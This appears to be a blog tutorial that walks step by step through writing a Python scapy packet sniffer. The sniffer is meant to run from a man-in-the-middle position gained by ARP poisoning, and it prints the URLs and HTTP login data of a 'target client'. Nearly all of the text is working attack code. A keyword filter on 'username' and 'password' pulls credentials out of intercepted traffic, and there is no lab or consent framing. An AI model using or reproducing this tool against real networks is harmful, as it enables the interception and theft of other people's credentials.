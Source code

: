 ```yaml
---
layout: post
comments: true
title:  "The Process of Building a Packet Sniffer Tool"
date:   2019-03-22 00:03:26
categories: Python, Packet Sniffer, Kali, scapy, Application Layer, HTTP, MITM
---
```


In this documentation, I will go through the process on how to write a Packet Sniffer tool in Python which can sniff (capture) data flowing through an interface, filter this data, and display information on terminal like: visited websites, usernames, passwords, images and files downloaded.

Here, in order to capture data, you would need to already be the MITM (Man In The Middle) by using ARP table poisoning, or via any other method. For this tool we will be using the module scapy. To install scapy do the following.
```python
pip install scapy
pip install scapy_http
```
Note: scappy http module is used to filter for the HTTP layer. For this tool, we will build a packet sniffer that analyzes what website the client requests, and if they type in any username or password on that specific website, we will capture that data and print it out on our terminal.

1. In order to sniff data that is being sent to or from one of our computer interfaces, we will use a function called sniff that comes in the module scapy, but before we can use it let's import all the necessary libraries.
    ```python
    #!/usr/bin/env python
    import scapy.all as scapy
    from scapy.layers import http
    ```

2. Next, let's create a function called sniff() where we will pass in the interface. This interface will be the interface that we will be sniffing (capturing) data from. Here, "iface" means to specify the interface that is to be sniffed. "Store" is to tell scapy not to store packets in memory, hence it doesn't cause too much pressure on the computer. The "prn" argument allows us to specify a call back function, where this function will be called every time the sniff() function captures a packet.
    ```python
    def sniff(interface):
        scapy.sniff(iface=interface, store=False, prn=process_sniffed_pakcet)
    ```

3. After sniffing the data, next, we will write a function to capture the URL requested by the target client. Here, we are extracting data from a specific layer. For this we will use the [BPF (Berkeley Packet Sniffer)](http://biot.com/capstats/bpf.html) syntax. Since web browsers use the HTTP layer, we will look into the packet to see if it has a layer of HTTP request, and if it does, then we will return that packet. So, in order to extract the URL visited by the user, we will use the HTTP request layer which contains the information of the visited/requested web page. Here, "Host" contains the first part of the URL and "Path" contains the rest of the URL. (Note: if you do print(packet.show) you will be shown all the layers in the packet and the fields that are set in this packet. But beware it can get very messy and untidy. The reason of printing packet.show is so that we can find out which layer contains the information we are looking for.)
    ```python
    def get_url(packet):
        return packet[http.HTTPRequest].Host + packet[http.HTTPRequest].Path
    ```

4. Next, we will write a function to capture login information, such as username and password that is entered into the website by the target client. After some search/analyze through packet.show output I noticed that there is a layer called "Raw" which contains all the information of the packets, and I noticed that we would only need the load field. Hence, the following code. Here, to find whether a specific element substring is contained in load, we will create a list of keywords.
    ```python
    def get_login_info(packet):
        if packet.haslayer(scapy.Raw):
            load = packet[scapy.Raw].load
            keywords = ["username", "user", "password", "pass"]
            for keyword in keywords:
                if keyword in load:
                    return load
    ```

5. Next, we will write the callback function which we specified in step 2. This function will be called every time the sniff() function captures a packet. Here, we will call the get_url function from step 3 to get URL requested by the target client and we will print the information out on terminal. Also, we will call the get_login_info function from step 4 to get the login information entered by the target client and we will print it out to terminal. (Note: here, I have used "\n\n" in the print statement, so that when it shows up on terminal, the print statement will be easier to find.)
    ```python
    def process_sniffed_pakcet(packet):
        if packet.haslayer(http.HTTPRequest):
            url = get_url(packet)
            print("[+] HTTP Request >> " + url)

            login_info = get_login_info(packet)
            if login_info:
                print("\n\n[+] Possible Username/Password >> " + login_info + "\n\n")
    ```

6. Finally, we will call the sniff function and pass in the specific interface that is to be sniffed. The specified interface needs to have packets flowing through it. For example, this is achieved after a target Client and Access Point have been ARP spoofed, causing packets to redirect flow of packets through the interface that is used to spoof.
    ```python
    sniff(eth0)
    ```

7. Now, we have a fully working Packet Sniffer tool which can help us see URLs, usernames and passwords sent by the target. If you get stuck in the process or have any questions, leave a comment down below and I will be happy to answer them.

